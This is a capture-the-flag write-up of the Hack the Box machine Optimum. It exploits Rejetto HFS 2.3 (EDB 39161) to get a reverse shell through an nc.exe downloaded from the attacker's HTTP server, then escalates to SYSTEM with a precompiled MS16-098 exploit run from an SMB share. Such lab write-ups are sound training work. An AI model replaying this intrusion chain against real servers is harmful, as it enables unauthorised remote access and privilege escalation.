

Title: Optimum - Hack the Box
Date: 2020-05-03
Category: ctf
Tags: ctf, hack the box, oscp prep
Slug: htb-optimum
Authors: Riley
Summary: Guide to Optimum on Hack the Box.

## Description

Optimum is a Windows 2012 R2 server with only an HTTP server available on it. After exploiting the web server, we move on to identifying a compatible kernel exploit to get to system.

## Reconnaissance

Optimum is hosted on IP 10.10.10.8.

#### Nmap
```bash
nmap -sV -sC -oA nmap/optimum 10.10.10.8                                                                           
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 12:18 PDT     
Nmap scan report for 10.10.10.8   
Host is up (0.12s latency).                                     
Not shown: 999 filtered ports                                                                                                                                
PORT   STATE SERVICE VERSION                                                                                                                                 
80/tcp open  http    HttpFileServer httpd 2.3                                                                                                                
|_http-server-header: HFS 2.3      
|_http-title: HFS /   
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The HTTP server hosts a Rejetto HttpFileServer v2.3.



## Anonymous -> User

This version has a known RCE exploit ([EDB 39161](https://www.exploit-db.com/exploits/39161). To set up the exploit, we need to: 1) host a Windows `nc.exe` binary on a web server that will be downloaded to our target; 2) configure the exloit file to connect back to a listener on our own box; 3) run the exploit, possibly multiple times. In order to set this up, I had to use 3 terminal windows; `tmux` makes this an easy task, and I highly suggest picking it up.

**# Terminal 1 / http server:**

In this terminal, we locate the `nc.exe` file in Kali, create a soft link in our local directory, then start a simple HTTP server using Python.

```bash
# locate nc.exe
/usr/share/windows-resources/binaries/nc.exe
# link -s /usr/share/windows-resources/binaries/nc.exe ./nc.exe
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


**# Terminal 2 / ncat:**

We need to configure the file to send back to our own address and stand up a listener for the server to connect back to. To configure the file, replace the IP and port on lines 35 & 36 respectively. For the latter task I use `ncat`, listening on port `8080`.

```bash
# ncat -nvl 8080
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
```

### Exploiting the HFS:

Now we just need to run the exploit. I had to run this 2 times: the first time made a connection back to download `nc.exe` from the web server but did not spawn a shell; the second time did spawn a shell.  This is in-line with a note in the exploit file.

**# Terminal 3 / exploit:**

```bash
# python2 ./39161.py 10.10.10.8 80
# python2 ./39161.py 10.10.10.8 80
```

**# Terminal 1 / http server, exec 1:**

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [03/May/2020 12:40:02] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.8 - - [03/May/2020 12:40:02] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.8 - - [03/May/2020 12:40:02] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.8 - - [03/May/2020 12:40:02] "GET /nc.exe HTTP/1.1" 200 -
```

**# Terminal 2 / ncat, exec 2:**

```bash
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.8.
Ncat: Connection from 10.10.10.8:49162.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami && hostname
whoami && hostname
optimum\kostas
optimum

C:\Users\kostas\Desktop>dir  
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

10/05/2020  07:19     <DIR>          .
10/05/2020  07:19     <DIR>          ..
18/03/2017  03:11            760.320 hfs.exe
18/03/2017  03:13                 32 user.txt.txt
               2 File(s)        760.352 bytes
               2 Dir(s)  31.882.088.448 bytes free
```

## Server enumeration

From this point, we can perform further enumeration on the target system. A good place to start is with OS and system information.

**> systeminfo**
```
Host Name:                 OPTIMUM            
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 
System Boot Time:          10/5/2020, 7:17:21 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.479 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.682 MB
Virtual Memory: In Use:    821 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

This is a Windows Server 2012 R2 box running on an old patch. A kernel exploit could work; we can investigate this using [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). I would suggest the use of Watson, but as this is an old box and Watson no longer supports versions of Windows below 10 or Server 2016, it may miss integral information.

The first step in doing this was saving the above systeminfo output into a txt file.  Next, I updated Windows Exploit Suggester and ran the python script.

**> windows-exploit-suggester**
```bash
# ./windows-exploit-suggester.py -d ./2020-05-03-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits                   
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*]
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*]
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important                                              
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)                
[*]
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*]
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important                          
[*]   https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
[*]   https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
[*]
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[*]   https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
[*]
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[*]   https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
[*]   https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC
[*] 
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[*]   Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
[*] 
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[*]   https://www.exploit-db.com/exploits/39232/ -- Microsoft Windows devenum.dll!DeviceMoniker::Load() - Heap Corruption Buffer Underflow (MS16-007), PoC
[*]   https://www.exploit-db.com/exploits/39233/ -- Microsoft Office / COM Object DLL Planting with WMALFXGFXDSP.dll (MS-16-007), PoC
[*] 
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[*]   https://www.exploit-db.com/exploits/38968/ -- Microsoft Office / COM Object DLL Planting with comsvcs.dll Delay Load of mqrt.dll (MS15-132), PoC
[*]   https://www.exploit-db.com/exploits/38918/ -- Microsoft Office / COM Object els.dll DLL Planting (MS15-134), PoC
[*] 
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[*]   https://www.exploit-db.com/exploits/39698/ -- Internet Explorer 9/10/11 - CDOMStringDataList::InitFromString Out-of-Bounds Read (MS15-112)
[*] 
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[*]   https://www.exploit-db.com/exploits/38474/ -- Windows 10 Sandboxed Mount Reparse Point Creation Mitigation Bypass (MS15-111), PoC
[*] 
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[*]   https://www.exploit-db.com/exploits/38202/ -- Windows CreateObjectTask SettingsSyncDiagnostics Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38200/ -- Windows Task Scheduler DeleteExpiredTaskAfter File Deletion Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
[*] 
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[*]   https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
[*] 
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[*]   https://www.exploit-db.com/exploits/38222/ -- MS15-078 Microsoft Windows Font Driver Buffer Overflow
[*] 
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[*]   https://www.exploit-db.com/exploits/37052/ -- Windows - CNG.SYS Kernel Security Feature Bypass PoC (MS15-052), PoC
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*] 
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*] 
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[*]   http://www.exploit-db.com/exploits/35661/ -- Windows 8.1 (32/64 bit) - Privilege Escalation (ahcache.sys/NtApphelpCacheControl), PoC
[*] 
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*] 
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
```

There's a whole lot here to digest with this output.

### # User -> Administrator: Exploiting MS16-098

The MS16-098 exploit seems promising upon analysis and exploit db has a direct link to a pre-compiled executable. We can download that and attempt to exploit the box with it.

We start by downloading this to the attacking machine, then starting the SMB server again (if you closed it).

```bash
# wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
--2020-05-03 14:32:23--  https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
Resolving github.com (github.com)... 192.30.255.113
Connecting to github.com (github.com)|192.30.255.113|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/41020.exe [following]
--2020-05-03 14:32:24--  https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/41020.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.188.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.188.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 560128 (547K) [application/octet-stream]
Saving to: ‘41020.exe’

41020.exe                                                                      100%[===================================================================================================================================================================================================>] 547.00K  1.99MB/s    in 0.3s    

2020-05-03 14:32:25 (1.99 MB/s) - ‘41020.exe’ saved [560128/560128]
# /usr/bin/impacket-smbserver -smb2support share .
```

Then all we need to do is run execute the exploit; we can do so without touching disk by executing directly from the SMB share like so:

```cmd
C:\Users\kostas\Documents>\\10.10.14.19\share\41020.exe
\\10.10.14.19\share\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Documents>whoami && hostname
whoami && hostname
nt authority\system
optimum

C:\Users\kostas\Documents>dir C:\Users\Administrator\Desktop
dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  03:14     <DIR>          .
18/03/2017  03:14     <DIR>          ..
18/03/2017  03:14                 32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.870.459.904 bytes free
```

And like that we now have system privileges on the exploited box! This concludes the guide; thank you for reading.
